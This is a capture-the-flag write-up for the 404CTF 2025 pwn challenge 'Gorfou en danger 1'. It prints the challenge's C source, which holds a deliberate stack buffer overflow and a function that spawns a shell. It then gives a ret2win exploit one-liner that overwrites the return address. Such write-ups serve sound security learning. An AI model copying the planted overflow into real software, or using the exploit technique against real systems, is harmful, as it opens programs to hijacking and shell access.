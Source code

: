```yaml
---
layout: post
title: Gorfou en danger 1
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: wu for Gorfou en danger 1 in 404CTF
---
```



```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

void menu() {
    puts("      __                                                                     ");
    puts("     /\\ \\                                                                  ");
    puts("    /  \\ \\      .--------------------------------------------------------. ");
    puts("   / /\\ \\ \\     |░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀█░|");
    puts("  / / /\\ \\ \\    |░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░░█░|");
    puts(" / / /__\\_\\ \\   |░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀|");
    puts("/ / /________\\  '--------------------------------------------------------'  ");
    puts("\\/___________/                                                              ");
}

void debug_access(void) {
    puts("Accès à l'interface de debogage...");

    __asm__(
        ".intel_syntax noprefix;"
        "push 0x0;"
        ".att_syntax;"
    );
    
    system("/bin/sh");
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la base martienne Fermat\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
This challenge was purposed in 404CTF 2025
> In this challenge the source code was given


We can some function called `debug_access`, it's a ret2win challenge. 

In a ret2win challenge you just have to find the offset to crush the EIP/RIP and return the function address.
> offset + return adress

```bash
gorfou-en-danger-1 readelf -s ./chall| grep "debug"
    42: 00000000004004fd    29 FUNC    GLOBAL DEFAULT    4 debug_access
```
so we just have to put the address in little endian 
debug adress in little endian : `\xfd\x04@\x00\x00\x00\x00\x00`
solution : 
```bash
(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xfd\x04@\x00\x00\x00\x00\x00";cat) | ./chall
```
